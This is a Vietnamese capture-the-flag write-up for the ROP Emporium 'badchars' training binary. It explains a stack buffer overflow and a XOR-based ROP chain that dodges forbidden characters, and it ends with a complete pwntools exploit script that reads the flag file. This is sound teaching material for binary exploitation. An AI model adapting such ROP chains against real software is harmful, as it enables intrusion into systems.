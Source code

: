 # ROP_Emporium - badchars

# 1. Tìm lỗi

Ta sẽ dùng lệnh `file` để xem thông tin file challenge:
```
badchars: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, for GNU/Linux 3.2.0, BuildID[sha1]=6c79e265b17cf6845beca7e17d6d8ac2ecb27556, not stripped

```
Đây là file 64-bit không bị ẩn tên hàm. Kế đến, ta sẽ kiểm tra security của file:

```
Arch:     amd64-64-little
RELRO:    Partial RELRO
Stack:    No canary found
NX:       NX enabled
PIE:      No PIE (0x400000)
RUNPATH:  b'.'

```
Ta thấy chỉ có NX được bật, tức là ta không thể thực thi code nằm trên stack được. Tiếp theo, ta mở file bằng IDA PRO 64bit. Có thể thấy hàm khai thác là hàm **pwnme()**:

Hàm pwnme()

![pwnme.png](images/pwnme.png)

Ở đây ta không nhìn được cách hàm pwnme() hoạt động nên ta sẽ đọc mã assembly từ file binary:

![pwnme2.png](images/pwnme2.png)

Còn có hàm usefulFunction()

![usefulFunction.png](images/usefulFunction.png)

cũng như usefulGadgets()

![usefulGadgets.png](images/usefulGadgets.png)

# 2. Ý tưởng

Có thể thấy chức năng hàm usefulFunction() để in ra file nên ta sẽ lợi dụng BOF để sửa tham số **nonexistent** thành **flag.txt** để hàm này đọc flag file và in ra

--> ROP_chain

# 3. Khai thác

Ta sẽ tìm offset tới rip bằng gdb như sau:

![offset.png](images/offset.png)

Có thể thấy ở hàm usefulFunction() sẽ lấy tham số để đọc file bằng thanh ghi edi --> ta sẽ truyền tham số mới cho edi tại đây

![usefulFunction2.png](images/usefulFunction2.png)

Đối với usefulGadgets() có **xor    BYTE PTR [r15],r14b** dùng để thực hiện việc XOR một byte được chỉ định trong thanh ghi R14 với byte tại địa chỉ được lưu trữ trong thanh ghi R15 và được lưu trữ tại địa chỉ được chỉ định trong thanh ghi R15

![usefulGadgets2.png](images/usefulGadgets2.png)

Mà trong file không có sẵn chuỗi "flag.txt"
--> Ta sẽ dùng usefulGadgets() để ghi chuỗi "flag.txt" vào 1 vị trí trống nào đó

Tìm 1 địa chỉ trống có quyền ghi:

![vmmap.png](images/vmmap.png)

ở đây trong khoảng [0x00601000 - 0x00602000] có quyền đọc và ghi

Tiếp đến kiếm đại 1 địa chỉ trống:

![strstr.png](images/strstr.png)

ở đây mình sẽ lấy **0x6010f0**

# Quan trọng

Chạy thử chương trình:

![run.png](images/run.png)

Như tên chương trình **badchars**, khi ta nhập vào nhưng ký tự **'x', 'g', 'a', '.'** thì khi lưu vào thanh ghi thì ký tự đó bị biến đổi

Sử dụng gdb nhập vào input với b"a"*0x50 ta được:

![gdb1.png](images/gdb1.png)

Chính bởi việc các ký tự **'x', 'g', 'a', '.'** bị cấm nên ta sẽ chỉ ghi được **fl___t_t** của file flag muốn đọc nên ta sẽ tận dụng **xor    BYTE PTR [r15],r14b** của usefulGadgets() để biến đổi byte và lưu vào địa chỉ của r15.

ROP_chain ta sẽ làm như sau:

- pop_r12_r13_r14_r15 
- đưa giá trị "fl,,,t,t" vào r12 do các ký tự **'x', 'g', 'a', '.'** bị cấm
- đưa địa chỉ lưu chuỗi vào r13
- đưa byte cần xor với [r15] vào r14
- đưa địa chỉ chứa byte cần xor với r14 vào r15 và sau khi xor lưu lại [r15]
- mov_r12_r13 dùng để đẩy giá trị r12 vào [r13]
- dùng hàm usefulGadgets() để sử dụng phép **xor    BYTE PTR [r15],r14b**
- lặp lại 3 lần phép **xor    BYTE PTR [r15],r14b** để sửa giá trị chuỗi từ "fl,,,t,t" thành "flag.txt"
- pop thanh ghi rdi
- đưa địa chỉ chứa chuỗi "flag.txt" vào rdi
- gọi đến hàm **printf_file** sau khi đã setup xong rdi

Full code:
```
from pwn import*
context.log_level       = "DEBUG"
context.arch            = "amd64"

elf = context.binary = ELF('./badchars', checksec=False)

p = process("./badchars")

#gdb.attach(p, gdbscript='''
#b*pwnme+268
#c
#x/s 0x6010f0
#''')

ret = ROP(elf).find_gadget(["ret"])[0]
pop_rdi_ret = ROP(elf).find_gadget(["pop rdi", "ret"])[0]
pop_r14_r15 = ROP(elf).find_gadget(["pop r14", "pop r15", "ret"])[0]
mov_r12_r13 = 0x0000000000400634
pop_r12_r13_r14_r15 = 0x000000000040069c
vuln = elf.sym['usefulFunction']
gadget = elf.sym['usefulGadgets']

null_addr = 0x6010f0                #địa chỉ lưu chuỗi "flag.txt"
   
payload1 = flat(
	cyclic(0x28),
	pop_r12_r13_r14_r15,
	b"fl,,,t,t",
	null_addr,
	p64(2),                         #2 xor với byte ',' có giá trị là 0x2c thì kết quả sẽ là byte "." có giá trị 0x2e và lưu vào null_addr+4        "fl,,.t,t"
	null_addr+4,
	mov_r12_r13,
	gadget,
	
	pop_r14_r15,
	p64(75),                        #75 xor với byte ',' có giá trị là 0x2c thì kết quả sẽ là byte "g" có giá trị 0x67 và lưu vào null_addr+3       "fl,g.t,t"
	null_addr+3,
	gadget,
	
	pop_r14_r15,
	p64(77),                        #77 xor với byte ',' có giá trị là 0x2c thì kết quả sẽ là byte "a" có giá trị 0x61 và lưu vào null_addr+2       "flag.t,t"
	null_addr+2,
	gadget,
	
	pop_r14_r15,
	p64(84),                        #84 xor với byte ',' có giá trị là 0x2c thì kết quả sẽ là byte "x" có giá trị 0x78 và lưu vào null_addr+2       "flag.txt"
	null_addr+6,
	gadget,
	
	pop_rdi_ret,
	null_addr,
	vuln+9
	
    )

p.sendlineafter(b">",payload1)
p.interactive()


```
# 4. Lấy flag

![flag.png](images/flag.png)


